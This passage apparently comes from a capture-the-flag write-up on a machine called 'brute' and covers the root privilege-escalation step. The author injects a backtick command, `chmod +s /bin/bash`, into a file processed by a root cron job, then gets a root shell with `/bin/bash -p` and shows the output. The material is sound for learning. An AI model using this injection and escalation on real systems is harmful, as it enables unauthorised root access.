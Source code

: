 punch_in.sh

```bash
#!/bin/bash

/usr/bin/echo 'Punched in at '$(/usr/bin/date +"%H:%M") >> /home/adrian/punch_in
```

Running `crontab -l` shows us a cron job running once a minute to do this:

```bash
*/1 * * * * /usr/bin/bash /home/adrian/punch_in.sh
```

We can't edit the .sh script but we can edit the punch_in file. If root somehow accesses it maybe we can get a command to be run from that file. Almost like log poisoning but a little different. I edit the file to add the following to the end of the file:

```bash
Punched in at 18:35
chmod +s /bin/bash
```

That didn't work. I try and use command substitution by enclosing the same command in backticks (`):

```bash
Punched in at 18:38
`chmod +s /bin/bash`
```

Looking at /bin/bash in it's current state:

```bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

And a minute later:

```bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

Alright, we now have a SUID /bin/bash. Let's esclate.

<br>

## Root

Running the SUID /bin/bash:

`/bin/bash -p`

```bash
adrian@brute:~$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# hostname
brute
bash-5.0#
```
